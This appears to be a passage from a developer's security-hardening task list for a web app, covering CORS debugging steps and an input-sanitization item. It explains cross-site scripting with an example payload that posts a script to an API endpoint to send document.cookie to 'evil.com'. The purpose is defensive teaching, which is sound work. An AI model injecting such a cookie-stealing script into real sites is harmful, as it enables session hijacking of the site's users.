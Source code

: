 **Quick debugging:**

If getting CORS errors:
1. Check browser console for exact error
2. Check if backend sends CORS headers (Network tab)
3. Verify origin matches allowed origin exactly
4. Make sure method (GET/POST) is allowed
5. Check if credentials setting matches

**Action Items:**
- [ ] Add CORS headers configuration
- [ ] Configure allowed origins
- [ ] Set allowed methods
- [ ] Add environment-based configuration
- [ ] Test CORS from different origins

---

### 16. Add Input Sanitization
**Priority:** P3  
**Effort:** 2-3 hours  
**Files Affected:**
- New: `src/lib/sanitization.ts`
- All API routes

**🎓 Why This Matters:**
Input sanitization is like washing vegetables before eating them. Users can send "dirty" data (accidentally or maliciously) - you need to clean it before using it!

**What is input sanitization?**

Taking user input and removing dangerous parts:
```typescript
// User sends:
"<script>alert('HACKED!')</script>Hello"

// After sanitization:
"Hello"  // Removed the dangerous script!
```

**The danger - Trusting user input:**

**Rule #1 of security: NEVER TRUST USER INPUT!**

Why? Users (or hackers) can send:
- Malicious code
- SQL commands
- Excessive data
- Invalid formats
- Sneaky characters

**Attack Type 1 - Cross-Site Scripting (XSS):**

Hacker creates supplier with malicious name:
```typescript
POST /api/suppliers
{
  "name": "<script>
    fetch('evil.com/steal?cookie=' + document.cookie)
  </script>"
}
```
